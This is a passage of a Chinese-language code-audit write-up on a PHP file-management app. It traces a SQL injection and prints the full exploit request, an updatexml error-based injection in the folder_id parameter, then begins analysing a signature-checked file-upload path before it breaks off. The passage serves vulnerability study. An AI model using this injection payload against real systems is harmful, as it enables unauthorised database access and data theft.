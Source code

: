 所以最终的结果就是因为通过了`union`​去拼接起来了，所以才导致了SQL注入的产生，破案了

‍

最终报文如下

```xml
GET /file/list?folder_id=1-updatexml(1,concat(0x7e,database(),0x7e),1)&amp;search=&amp;page=&amp;rows= HTTP/1.1
Host: wp.com
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Content-Type: application/json
Referer: http://wp.com/user/index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=21cpn2h5jqf7e47k8dtlrhnmk4
Connection: close
```

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-e853051b6b38837e1419054cda78a97be1b64bf0.png)​

‍

‍

文件上传
----

‍

首先全局搜索`move_uploaded_file`​函数，发现`public/server/index.php`​文件引用该函数

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-1bc0abdf36691bdca5758723c071685b153be61c.png)​

之后便发现这个方法是一个`protected`​权限来修饰，所以这个方法直接调用不成功

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-91f04dd133b1a592dd1069fd1e00aa060f0f037b.png)​

之后就要去观看这个文件被谁来调用 发现是`\public\server\index.php#start()`​调用了，刚好是符合`protected`​属性的

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-de94ddb2659ac53a1e04d09d411777b18f7c1c07.png)​

‍

但是往上看发现存在验签操作

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-2d5baa3f742eece551dd2af34b43c540e558e82d.png)​

‍

发现是存在两个传参，`$command`​ `$sign`​ 并且是需要验签的，那我们跟进`sign_verify`​看看

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-fd2b12af22d20e59f6633af6dbc059d1c7069868.png)​
